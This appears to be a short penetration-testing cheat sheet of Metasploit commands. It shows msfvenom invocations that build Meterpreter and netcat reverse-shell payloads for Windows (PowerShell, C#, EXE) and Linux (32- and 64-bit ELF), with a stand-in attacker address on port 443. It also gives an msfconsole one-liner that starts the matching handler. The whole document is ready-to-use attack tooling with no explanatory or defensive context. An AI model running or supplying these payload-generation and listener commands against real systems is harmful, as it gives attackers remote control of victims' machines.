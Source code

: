 
# Windows
## PowerShell

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f ps1
```

### Csharp

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f csharp
```

### EXE

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f exe > shell.exe
```

## Multi-Handler

```bash
sudo msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST x.x.x.x;set LPORT 443;run;"
```
# Linux

### Netcat

```bash
sudo msfvenom -p cmd/unix/reverse_netcat lhost=x.x.x.x lport=443
```
#### 32 Bit:

```bash
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=443 -f elf > shell.elf
```
#### 64 Bit:

```bash
sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=443 -f elf > shell.elf
```